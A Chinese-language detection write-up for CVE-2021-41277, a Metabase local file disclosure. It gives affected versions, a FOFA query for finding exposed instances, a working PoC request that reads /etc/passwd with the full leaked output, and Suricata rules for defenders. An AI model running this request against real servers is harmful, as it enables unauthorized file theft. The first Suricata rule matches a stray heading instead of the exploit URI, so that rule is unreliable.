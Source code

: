 # T1190-CVE-2021-41277-Metabase敏感信息泄露漏洞

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## Metabase敏感信息泄露漏洞（CVE-2021-41277）

metabase是一个简单、开源的数据分析平台。

在受影响的版本中，自定义GeoJSON地图（admin->settings->maps->custom maps->add a map）操作缺少权限验证，攻击者可通过该漏洞获得敏感信息。

### 影响版本

影响版本：

```yml
metabase version < 0.40.5
metabase version >= 1.0.0, < 1.40.5
```

FOFA查询语句：app="metabase"

### 测试案例

POC：/api/geojson?url=file:/etc/passwd

### 检测日志

HTTP.log

### 测试复现

```yml
GET /api/geojson?url=file:/etc/passwd HTTP/1.1
Host: *.*.*.*:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
Date: Fri, 26 Nov 2021 12:34:30 GMT
X-Frame-Options: DENY
X-XSS-Protection: 1; mode=block
Last-Modified: Fri, 26 Nov 2021 20:34:30 +0800
Strict-Transport-Security: max-age=31536000
Set-Cookie: metabase.DEVICE=dd8c913f-87fb-483f-9e65-623657a0ca5a;HttpOnly;Path=/;SameSite=Lax;Expires=Sun, 17 Nov 2041 12:06:40 +0800
X-Permitted-Cross-Domain-Policies: none
Cache-Control: max-age=0, no-cache, must-revalidate, proxy-revalidate
X-Content-Type-Options: nosniff
Content-Security-Policy: default-src 'none'; script-src 'self' 'unsafe-eval' https://maps.google.com https://apis.google.com https://www.google-analytics.com https://*.googleapis.com *.gstatic.com   'sha256-lMAh4yjVuDkQ9NqkK4H+YHUga+anpFs5JAuj/uZh0Rs=' 'sha256-sMNbXyc1lLzhHbH/CKs11HIQMnMkZAN2eA99WhJeEC0=' 'sha256-JJa56hyDfUbgNfq+0nq6Qs866JKgZ/+qCq2pkDJED8k='; child-src 'self' https://accounts.google.com; style-src 'self' 'unsafe-inline'; font-src 'self' ; img-src * 'self' data:; connect-src 'self' metabase.us10.list-manage.com ; manifest-src 'self';  frame-ancestors 'none';
Content-Type: application/json
Content-Encoding: gzip
Expires: Tue, 03 Jul 2001 06:00:00 GMT
Transfer-Encoding: chunked
Server: Jetty(9.4.32.v20200930)

root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-bus-proxy:x:999:998:systemd Bus Proxy:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:998:997:User for polkitd:/:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:997:995::/var/lib/chrony:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
ops:x:1000:1000::/home/ops:/bin/bash
service:x:1001:1001::/home/service:/bin/bash
zabbix:x:1002:1002::/home/zabbix:/sbin/nologin
grafana:x:996:994:grafana user:/usr/share/grafana:/sbin/nologin
mysql:x:995:1003::/usr/local/mysql:/sbin/nologin
saslauth:x:994:76:Saslauthd user:/run/saslauthd:/sbin/nologin
metabase:x:1003:1004::/home/metabase:/bin/bash
redis:x:993:991:Redis Database Server:/var/lib/redis:/sbin/nologin
nginx:x:992:990:Nginx web server:/var/lib/nginx:/sbin/nologin
openvpn:x:991:989:OpenVPN:/etc/openvpn:/sbin/nologin
```

### 检测规则/思路

Suricata规则

```s
alert http any any -> any any (msg:"CVE-2021-41277-rsq";flow:established,to_server;content:"GET";http_method;content:"### Suricata规则";http_uri;reference:url,github.com/Seals6/CVE-2021-41277;flowbits:set,first_rsq;noalert;classtype:web-application-attck;sid:1;rev:1;)

alert http any any -> any any (msg:"CVE-2021-41277-Metabase敏感信息泄露漏洞";flow:established,to_client;content:"200";http_stat_code;content:"/bin/bash";http_server_body;flowbits:isset,first_rsq;sid:2;rev:1;)
```

## 备注

本案例仅做防御检测研究，请勿用于非法用途。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

CVE-2021-41277-POC

<https://github.com/Seals6/CVE-2021-41277>
